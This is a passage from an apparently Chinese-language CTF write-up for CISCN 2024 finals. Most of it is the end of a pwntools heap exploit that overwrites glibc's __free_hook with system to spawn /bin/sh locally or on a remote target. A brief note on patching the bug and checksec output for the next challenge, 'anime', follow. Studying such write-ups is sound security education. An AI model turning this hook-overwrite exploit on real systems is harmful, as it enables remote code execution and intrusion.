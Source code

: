 ```python
    add(0x40, b'im_block_2')
    add(0x90, b'im_block_3')
    add(0x90, b'im_block_4')
    delete(4)
    delete(3)
    edit(2, 0x2a8, b'a'*0x2a0 + pack(libc_base+libc.sym["__free_hook"])[:6])
    add(0x90, b'/bin/sh')
    add(0x90, pack(libc_base+libc.sym["system"])[:6])

    delete(5)

    io.interactive()


# ------------------ Infrastructure ------------------ #

gdbscript = '''
'''

if __name__ == "__main__":
    print("[*] Cameudis's PWN Framework")
    if len(sys.argv) == 1:
        io = gdb.debug(filename, gdbscript=gdbscript, exe=filename)
    elif sys.argv[1] == "d":
        io = process(filename)
    elif sys.argv[1] == "r":
        io = remote(ip, port)
    else:
        print("Usage: ./exp.py [d | r]")
        print("\td for direct without debug")
        print("\tr for remote")
        exit()

    pwn()
```

### Patch

由于出题人的检验脚本非常恶心，所以本题修复难度非常大。我和队友尝试了非常多种方法后，最后发现把 `malloc` 的参数硬编码为 `0x1000` 就可以通过检测。

## anime

### 程序分析

程序环境为 `GLIBC 2.31`，二进制保护全开：

```sh
$ checksec ./pwn
[*] '/home/cameudis/ctf/ciscn2024-final/anime/pwn'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
